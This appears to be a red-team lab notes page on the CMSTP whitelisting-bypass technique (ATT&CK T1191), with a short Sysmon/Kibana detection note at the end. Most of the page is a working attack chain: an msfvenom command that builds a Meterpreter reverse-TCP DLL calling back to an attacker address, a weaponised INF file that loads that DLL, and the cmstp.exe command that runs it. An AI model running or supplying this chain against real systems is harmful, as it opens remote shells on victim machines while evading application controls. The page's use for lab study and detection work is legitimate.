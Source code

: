 ```yaml
---
description: CSMTP code execution - bypass application whitelisting.
---
```


# T1191: CSMTP

## Code

{% code-tabs %}
{% code-tabs-item title="evil.dll" %}
```text
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > /root/tools/mitre/cmstp/evil.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="f.inf" %}
```scheme
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
 
[RegisterOCXSection]
C:\experiments\cmstp\evil.dll
 
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="mantvydas"
ShortSvcName="mantvydas"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

```bash
PS C:\experiments\cmstp> cmstp.exe /s .\f.inf
```

## Observations

Rundll32 is sapwned which then establishes a connection back to the attacker:

![](../.gitbook/assets/cmstp-rundll32.png)

A very privitive way of hunting for suspicious instances of rundll32 initiating connections would be skimming through the sysmon logs to find any network connections established by rundll32 immediately/soon after it has been spawened by cmstp:

{% code-tabs %}
{% code-tabs-item title="kibana search query" %}
```javascript
cmstp.exe rundll32.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note how the connection was established second after the process creation. This behaviour depends on what the payload is supposed to do, but if the payload is a reverse shell, it usually attempts connecting back immediately upon execution, which is exactly our case:

![](../.gitbook/assets/cmstp-kibana%20%281%29.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1191\",\"type\":\"link\",\"title\":\"CMSTP - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/\",\"type\":\"link\",\"title\":\"AppLocker Bypass – CMSTP\",\"description\":\"CMSTP is a binary which is associated with the Microsoft Connection Manager Profile Installer. It accepts INF files which can be weaponised with malicious commands in order to execute arbitrary cod…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://pentestlab.files.wordpress.com/2018/05/cmstp-metasploit-multi-handler.png\",\"width\":707,\"height\":318,\"aspectRatio\":0.4497878359264498}}" %}



